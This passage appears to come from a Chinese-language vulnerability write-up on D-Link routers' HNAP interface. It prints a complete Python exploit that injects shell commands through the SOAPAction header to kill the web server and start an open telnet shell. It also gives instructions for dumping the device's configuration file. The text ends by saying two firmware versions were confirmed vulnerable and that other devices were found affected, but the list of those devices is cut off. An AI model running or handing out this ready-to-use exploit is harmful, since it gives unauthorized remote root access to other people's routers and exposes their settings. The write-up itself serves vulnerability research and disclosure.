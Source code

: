 wget请求将会被挂起，因为cgibin会等待telnetd返回。下面是用Python写的一个利用程序：

```
#!/usr/bin/env python

import sys
import urllib2
import httplib

try:
    ip_port = sys.argv[1].split(':')
    ip = ip_port[0]

    if len(ip_port) == 2:
        port = ip_port[1]
    elif len(ip_port) == 1:
        port = "80"
    else:
        raise IndexError
except IndexError:
    print "Usage: %s <target ip:port>" % sys.argv[0]
    sys.exit(1)

url = "http://%s:%s/HNAP1" % (ip, port)
# NOTE: If exploiting from the LAN, telnetd can be started on
#       any port; killing the http server and re-using its port
#       is not necessary.
#
#       Killing off all hung hnap processes ensures that we can
#       re-start httpd later.
command = "killall httpd; killall hnap; telnetd -p %s" % port
headers = {
            "SOAPAction"    : '"http://purenetworks.com/HNAP1/GetDeviceSettings/`%s`"' % command,
          }

req = urllib2.Request(url, None, headers)
try:
    urllib2.urlopen(req)
    raise Exception("Unexpected response")
except httplib.BadStatusLine:
    print "Exploit sent, try telnetting to %s:%s!" % (ip, port)
    print "To dump all system settings, run (no quotes): 'xmldbc -d /var/config.xml; cat /var/config.xml'"
    sys.exit(0)
except Exception:
    print "Received an unexpected response from the server; exploit probably failed. :("

```

0x02 结语
=====

我已经在v1.00和v1.03版本的固件上进行了测试（v1.03版本的固件为截至目前的最新版本），都存在漏洞。那么其他设备是否也存在同样的漏洞呢？  
分析所有设备固件很乏味，所以我将这个漏洞交给[Centrifuge团队](http://tacnetsol.com/)，这个团队拥有一套自动分析系统。他们发现至少以下这些设备存在漏洞：
